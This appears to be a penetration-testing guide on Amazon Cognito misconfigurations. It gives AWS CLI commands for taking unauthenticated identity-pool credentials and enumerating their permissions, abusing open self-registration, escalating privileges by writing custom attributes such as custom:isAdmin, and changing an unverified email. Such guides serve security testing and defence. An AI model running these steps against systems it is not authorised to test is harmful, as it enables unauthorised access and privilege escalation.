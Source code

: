 Credit: Yassine Aboukir @yassineboukir


# Amazon Cognito Security Misconfiguration

## Introduction
Amazon Cognito, you can add user sign-up and sign-in features and control access to your web and mobile application. Amazon Cognito provides an identity store that scales to millions of users, supports social and enterprise identity federation and offers advanced security features to protect your consumers and  business.
Amazon Cognito makes it easier for you to manage user identities, authentication, and permission.
It consists of two main components:
* User Pools: allow sign-in and sign-up functionality
* Identity Pools: allow authenticated and unauthenticated users to access AWS resources using temporary AWS credentials.


#### API calls to User pool
```
https://cognito-idp.us-west-2.amazonaws.com
```

#### API calls to Identity pool
```
https://cognito-identity.us-west-2.amazonaws.com
```


# Security Misconfiguration
## 1 Unauthorized access to AWS services due to Liberal AWS Credentails.
* Try to fetch temporary AWS credentails using unauthenticated user 
To generate the AWS credentaisls, we need to find ` Identity Pool ID ` which is usually hardcoded in the source code, in a bundled JS file or in HTTP response. Other useful information that you can find:
	* Client ID
	* User Pool ID
	* Region

![image](https://user-images.githubusercontent.com/88592872/211176003-f3a443e0-b3ba-445c-a729-7a3dc64278a4.png)


Next step is to use the Pool Identity ID to generate an Identity ID. User AWS-Cli tool [https://aws.amazon.com/cli/](https://aws.amazon.com/cli/)

#### Command
```
aws cognito-identity get-id --identity-pool-id <identity-pool-id> --region <region>
```


Copy the identity-id from the response and use it in the next command.

#### Command
```
aws cognito-identity get-credentials-for-identity --identity-id <identity-id> --region <region>
```

Now we can enumerate permissions associated with these credentials using a tools such as:
* Enumreate-iam: [https://github.com/andresriancho/enumerate-iam](https://github.com/andresriancho/enumerate-iam)
* Scout Suite: [https://github.com/nccgroup/ScoutSuite](https://github.com/nccgroup/ScoutSuite)


#### Command
```
./enumerate-iam.py --access-kry <AccessKeyID> --secret-key <SecreetKey> --session-token <SessionToken>
```

## 2. Authentication bypass due to enabled SignUp API action

Self-registration enabled by default when creating a new user pool.
We only need the client ID and region to test against the self-registration

#### Command
```
aws cognito-idp sign-up --client-id <client-id> --username <email-address> --password <password> --region <region>
```

In case of a successful self-registration, a 6 digits confirmation code will be delivered to the attacker's email address 
You'll need to confirm the account next

#### Command
```
aws cognito-idp confirm-sign-up --client-id <client-id> --username <email-address> --confirmation-code <confirmation-code> --region <region>
```

Sometimes you might successfully be able to sign up and register an account but it doesn't have any user group assigned. However, you will be able to obtain temporary AWS credentials which you can test against liberal permissions as we explained earlier.

## 3: Privilege escalation through writable user attributes
 
Attributes are pieces of information that help you identify individual users, such as name, email address and phone number. A new user pool has a set of default standard attributes.
You can also add custom attributes to your user pool definition in the AWS management console.
 
Unless set as readable only, the new custom attribute permission is writable by default which allows the user to update its value.
 
 * Fetching user attributes
In order to test against this misconfiguration, you need to be authenticated then we'll fetch the available user attributes using the generated access token.
 
#### Command
```
aws cognito-idp get-user --region <region> --access-token <access-token>
```


Look out for custom attributes such as:
```
custom:isAdmin
custom:userRole
custom:isActive
custom:isApproved
custom:access
```

* Updating user attributes

#### Command
```
aws cognito-idp update-user-attributes --access-token <access-token> --region <region> --user-attributes Name="<attribute-name>",Value="<new-value>"
```

## 4 Updating email attribute before verification
 
There are scenarios where the user isn't allowed to update their email address due to both client and server-side security controls. However, by leveraging Cognito API, it might also be possible to bypass this restriction.
 
 
#### Command
```
aws cognito-idp update-user-attributes --access-token <access-token> --region <region> --user-attributes Name="<email>",Value="<new-email-address>"
```
